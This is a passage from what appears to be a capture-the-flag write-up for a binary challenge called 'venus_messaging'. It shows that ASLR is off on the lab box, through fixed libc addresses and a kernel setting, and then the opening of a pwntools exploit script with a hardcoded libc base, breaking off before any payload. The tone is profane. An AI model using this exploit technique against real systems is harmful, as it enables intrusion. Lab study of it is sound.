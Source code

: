 
## Fuck ... me ...

Did you see it?  Did you notice the vulnbox libc address?

```
0x7ffff7dee000
```

Yeah, that does NOT look like ASLR is enabled in this OS.  You can check this a couple of ways _only from the vulnbox VM_:

```
bash-5.1# ldd /usr/bin/venus_messaging
        linux-vdso.so.1 (0x00007ffff7fc9000)
        libc.so.6 => /lib64/libc.so.6 (0x00007ffff7dee000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcb000)
bash-5.1# ldd /usr/bin/venus_messaging
        linux-vdso.so.1 (0x00007ffff7fc9000)
        libc.so.6 => /lib64/libc.so.6 (0x00007ffff7dee000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcb000)
```

Notice how the address for `libc.so.6` isn't changing?

Second check:

```
bash-5.1# cat /proc/sys/kernel/randomize_va_space
0
```

> **RANT: Who the fuck disables ASLR in the OS?  This puts this challenge back to before 2005.  This is why I did the strike through and rated this _easy_.**

> Ok, ok, I get it, this probably enables some to learn, and perhaps in some cases like IoT, it is relevant, however in almost all CTFs, all binary challenges have ASLR enabled in the OS.

With no ASLR, we do not need to leak libc. and I didn't need to spend most of an hour looking for ways to reset `rcx`--I get all that for free from libc.

### 5-min Exploit
        
```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./venus_messaging')

if args.REMOTE:
    #p = remote('172.19.2.239',9080)
    #port blocked? workaround: ssh -L 9080:localhost:9080 magellan@172.19.2.239
    p = remote('localhost',9080)
    libc = ELF('./libc.so.6')
    # lame no ASLR
    '''
    # ldd /usr/bin/venus_messaging
    linux-vdso.so.1 (0x00007ffff7fc9000)
    libc.so.6 => /lib64/libc.so.6 (0x00007ffff7dee000)
    /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcb000)
    '''
    libc.address = 0x00007ffff7dee000
else:
    p = remote('localhost',9080)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    libc.address = 0x00007ffff7dc0000

fd = 0x4
```